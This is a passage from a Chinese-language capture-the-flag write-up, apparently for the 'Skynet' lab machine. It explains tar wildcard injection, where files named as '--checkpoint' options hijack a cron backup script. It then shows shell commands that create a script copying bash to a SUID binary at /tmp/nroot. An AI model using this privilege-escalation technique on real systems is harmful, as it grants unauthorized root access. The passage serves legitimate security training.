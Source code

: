     ![Alt text](/style/image/image-335.png)

    + 通过tar命令可以利用一个名为``–checkpoint``的参数，该参数允许在每次归档 X 个文件时（X的默认值为10）显示“进度”消息， –checkpoint还可以与 ``–checkpoint-action`` 标志串联使用，``–checkpoint-action``标志允许在到达检查点（checkpoint）时以二进制或脚本的形式执行某些操作。

    + 结合前述已知信息：由于backups目录下的``backup.sh``脚本中使用的通配符*将对 ``/var/www/html`` 目录中的所有文件和文件夹执行归档命令，因此我们可以通过在``/var/www/html``下添加 ``–checkpoint=1`` 文件（启用检查点功能）和 ``–checkpoint-action=exec=xxx`` 文件（指定要执行的操作，检查点值为1，每归档一个文件都执行指定操作），那么当 tar 处理到以上文件时，相关的文件名将会被有效地视为tar命令的参数--从而执行某些操作。

    + 在``/var/www/html``目录下创建一个BASH脚本，该脚本的执行结果将创建一个实质为bash副本的 SUID 二进制文件，我们将该脚本命名为``newroot.sh``：  

        ``echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > newroot.sh``

        ```
        www-data@skynet:/home/milesdyson/backups$ cd /var/www/html
        cd /var/www/html
        www-data@skynet:/var/www/html$ echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > newroot.sh
        <ml$ echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > newroot.sh      
        www-data@skynet:/var/www/html$ ls
        ls
        45kra24zxs28v3yd  ai	  css	     index.html  newroot.sh
        admin		  config  image.png  js		 style.css
        www-data@skynet:/var/www/html$ cat newroot.sh
        cat newroot.sh
        cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot
        ```
    + 在``/var/www/html``目录下执行命令创建以下两个文件，这两个文件的实际作用是以文件名作为 tar 命令行中的参数:
